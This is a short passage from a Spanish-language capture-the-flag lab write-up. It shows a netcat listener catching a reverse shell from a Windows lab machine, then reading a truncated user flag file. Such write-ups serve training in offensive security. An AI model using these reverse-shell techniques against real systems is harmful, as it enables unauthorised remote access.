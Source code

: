![Write-up Image](images/Screenshot_6.png)

Y conseguimos acceso.
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.166] 57159
Microsoft Windows [Version 10.0.19045.3636]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
whoami
```

Podemos leer la flag de usuario.
```console
C:\Users\ruben\Desktop>type user.txt
219f46b8c56553c19...
```
